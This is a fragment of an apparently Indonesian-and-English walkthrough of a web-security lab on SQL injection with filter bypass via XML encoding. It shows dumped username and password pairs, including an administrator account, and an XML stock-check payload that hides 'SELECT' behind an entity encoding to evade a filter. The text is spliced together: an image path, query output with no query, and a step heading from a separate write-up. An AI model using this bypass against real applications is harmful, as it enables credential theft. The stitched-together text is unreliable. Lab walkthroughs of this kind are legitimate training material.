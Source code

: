      566 units
     wiener~z506ur5kimtupjsvl4l6
     administrator~twbrv625a0r6illow9gg
     carlos~e9em4neb7nqwq7kukimf
     ```

---

### **Langkah 5: Ekstraksi dan Penyimpanan Data**
5. Simpan data kredensial yang berhasil didapatkan untuk analisis lebih lanjut:
   - Username: `wiener`, Password: `z506ur5kimtupjsvl4l6`
   - Username: `administrator`, Password: `twbrv625a0r6illow9gg`
   - Username: `carlos`, Password: `e9em4neb7nqwq7kukimf`


--- 



The following payload allows to execute (SELECT 1), which returns the same as sending productId 1 and storeId 1:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		(&#x53;ELECT 1)
	</productId>
	<storeId>
		(&#x53;ELECT 1)
	</storeId>
</stockCheck>
```





![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/2.png)
![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/3.png)
